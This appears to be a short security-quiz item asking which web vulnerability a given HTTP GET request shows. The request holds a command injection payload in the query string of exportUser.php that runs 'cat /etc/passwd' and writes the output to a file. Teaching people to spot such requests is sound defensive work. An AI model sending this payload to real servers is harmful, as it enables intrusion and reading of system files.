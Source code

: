 - What Web vulnerability is in this HTTP header?
```
GET /include/exportUser.php?cla=application&func=_exec&opt=(cat+/etc/passwd)>nuclei.txt&type=3 HTTP/1.1
Host: host.com.br
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
```
